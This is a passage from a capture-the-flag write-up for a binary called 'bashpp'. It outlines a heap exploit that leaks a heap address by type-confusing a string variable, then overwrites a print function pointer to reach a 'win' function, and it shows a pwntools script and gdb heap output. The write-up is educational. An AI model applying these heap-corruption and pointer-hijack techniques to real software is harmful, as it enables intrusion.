 5. From the address from the code section, we can compute the address of the `win` function
6. Modify the address of the `print` function of a variable to point to a pointer to the `win` function
7. Call the `print` method of this modified variable: we get your flag!
## Exploit
Note: in the examples provided here, the absolute addresses from gdb can change from one example to another because I run the script multiple times to make these examples.
### Heap address
The first step is to get an address from the heap. For that, we will create a `stringVariable` to have an address that points to the heap, we will overwrite the type of this variable to make it a long, then, we will print the value of the variable through `getLongVar` function to avoid using `print` which is now overwritten by some garbage:
```py
import pwn

file = "./main"
conn = pwn.process(file)

# Create a first longVariable with value zero
# It will be used to display the content of other variables
# using process_arithmetic function
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$z=0\n')

# Each time we want to make an overwrite, we create a new log
# to avoid being polluted by the previous commands
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'log\n')

# We create now a stringVariable that we will overwrite to
# get an address to the heap
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$var=str\n')
```
Let's now analyze the heap of the program. For that, we need to add `conn.interactive()` at the end of the python script and run it:
```
$ python3 pwn_bashpp.py 
[+] Starting local process './main': pid 3422
[*] './main'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'> '
b'0\n> '
b'Creating new log\n> '
[*] Switching to interactive mode
str
```
The process has been created with pid 3422. We will use it to attach the debugger to it:
```
$ gdb -p 3422
GNU gdb (Debian 13.1-3) 13.1
[...]
gef➤  heap chunks
Chunk(addr=0x55eae6026010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055eae6026010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55eae60262a0, size=0x11c10, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```
